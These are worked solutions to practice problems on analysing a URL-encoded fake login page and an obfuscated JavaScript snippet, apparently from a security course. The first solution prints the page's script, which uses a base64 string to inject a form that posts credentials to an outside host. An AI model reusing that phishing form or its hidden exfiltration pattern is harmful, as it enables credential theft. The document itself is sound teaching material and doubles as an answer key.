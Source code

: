 # Solutions
This document contains the solutions for the practice problems in this lesson.

# JavaScript
## FakeLoginExample.html
**Objective: Find the URL to which credentials are being exfiltrated.**

By first opening the file, we see that the text is encoded.The frequent `%` signs indicate that this is URL encoded. You can decode the text using the URL decode feature on [CyberChef](https://gchq.github.io/CyberChef). 

After decoding the string, we get a complete HTML framework that has CSS and JS included. The CSS and HTML can be ignored. Usually credentials are exfiltrated through a user input or form which occurs in Javascript. 

Look for JavaScript in the decoded string. There is a script tag in the code:
```javascript
    <script>
      var tag = document.getElementById('tag')
      tag.innerHTML = atob("PGZvcm0gUE9TVD0iaHR0cDovL2FubmFsYW5lcy5jb20vZmlsZXRoaXNhd2F5L3R4dC50eHQiPg==")
    </script>
```

The atob() function is another version of encoding-- Base64. We can use CyberChef to decode the string, which in this case becomes 
```html
<form POST="http://annalanes.com/filethisaway/txt.txt">
```

This code indicates that when the form in the HTML is submitted, the information is sent to the URL `http://annalanes.com/filethisaway/txt.txt`

**Answer: The credentials are exfiltrated to http[:]//annalanes[.]com/filethisaway/txt.txt (not a real website!)**

## reverseJavaScriptExample.js
Goal: Figure out what line 33 will print out
```javascript
console['log'](myFunction(0x14, 0xa));
```

First put the entire javascript code into [beautifier.io](https://beautifier.io/). It won't do too much. One of the key tips for reverse engineering is to check outputs, strings, and function calls.

Output: the console.log statement on line 33

Strings: The only strings related to the output are the variables passed into the function `myFunction`, which are `0x14` and `0xa`. These are hexadecimal characters which represent the decimal numbers `20` and `10`, respectively.

Function calls: Let's now analyze the function `myFunction`

```javascript
function myFunction(_0xa4d92a, _0x45c33b) {
  return _0xa4d92a * _0x45c33b;
}
```

We see that this function simply returns the product of the two variables passed into the function. So, the console.log just prints the product of the two numbers passed into it. Since `20` and `10` were passed into the function, the output should be `200`.

The rest of the code was simply added as an obfuscation technique and does nothing. By running the code on [jsconsole](https://jsconsole.com/), you can see that the output is indeed 200.

**Answer: The console will output 200.**